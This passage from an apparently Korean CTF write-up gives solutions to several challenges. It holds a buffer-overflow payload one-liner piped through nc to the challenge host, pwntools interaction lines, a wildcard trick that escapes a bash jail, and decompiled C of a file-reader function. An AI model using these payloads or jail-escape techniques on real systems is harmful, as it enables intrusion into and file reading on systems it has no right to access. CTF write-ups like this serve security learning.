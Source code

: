 ```(python -c 'print "A"*304 + "\xb0\x83\x04\x08" + "AAAA" + "\x96\x82\x04\x08"'; cat) | nc c2w2m2.com 4777```

p.sendline(payload)
p.interactive()
```



__플래그 : flag{uninit?N0p~init_is_danger}__



### Bash Jail (200)

head랑 와일드 카드 필터링 안되있길래 head f*로 읽었다ㅋㅋ



**플래그 : flag{s0lve_____________________________________________B4shjail}**



### Reader (200)

```c
signed __int64 Open()
{
  signed __int64 result; // rax
  char file; // [rsp+0h] [rbp-30h]
  unsigned __int64 v2; // [rsp+28h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("Your Filename?\n:> ");
  scan(&file, 40LL);
  fd = open(&file, 0);
  if ( fd >= 0 )
  {
    if ( filter(&file) )
    {
      puts("Filterd!");
      fd = -1;
      result = 0xFFFFFFFFLL;
    }
    else
    {
      result = 0LL;
    }
  }
  else
  {
    puts("No file..");
    result = 0xFFFFFFFFLL;
  }
  return result;
}
```
